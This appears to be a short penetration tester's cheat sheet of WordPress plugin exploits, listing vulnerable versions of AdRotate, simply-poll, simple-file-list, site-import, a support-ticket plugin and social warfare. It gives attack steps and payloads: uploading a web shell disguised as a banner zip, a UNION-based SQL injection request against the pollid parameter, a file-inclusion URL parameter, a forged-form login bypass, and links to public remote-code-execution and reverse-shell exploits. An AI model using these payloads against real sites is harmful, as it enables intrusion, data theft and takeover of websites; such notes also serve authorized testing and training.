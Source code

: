 # wordpress plugin exploits

## adRotate 5.8.6.2

```
# can upload shell as zip as image banner
# banner images are auto extracted to /banner folder
# use plugin settings to find where the /banner folder is
# mostly /var/www/html/wordpress/wp-content/banners
wp-content/banners/web.php
```

## simply-poll-master 1.4.1 | 1.5 |

* https://www.exploit-db.com/exploits/40971

```
# POST http://example.com/wp-admin/admin-ajax.php
# --data="action=spAjaxResults&pollid=1 UNION SELECT 1,2,3,4,5,6,7 --"
# pollid is injectable 
# UNION query : 7 columns; 6th in injectable
```

## simple-file-list 4.2.2 | RCE

* direct reverse shell | https://www.exploit-db.com/exploits/48979
* arbitary file upload | https://www.exploit-db.com/exploits/48449

## site-import 1.0.1 | LFI + RFI

* https://www.exploit-db.com/exploits/39558

```
/wp-content/plugins/site-import/admin/page.php?url=
```

## wp-support-plus-responsive-ticket-system 7.1.3

* https://www.exploit-db.com/exploits/41006

```
# make exploit.html > update action to domain > run it > submit form
# refresh website > we are logged in
```

## social warfare < 3.5.3

* https://github.com/hash3liZer/CVE-2019-9978 (save payload in .txt and host it locally)
* https://www.exploit-db.com/exploits/46794
* https://github.com/shad0w008/social-warfare-RCE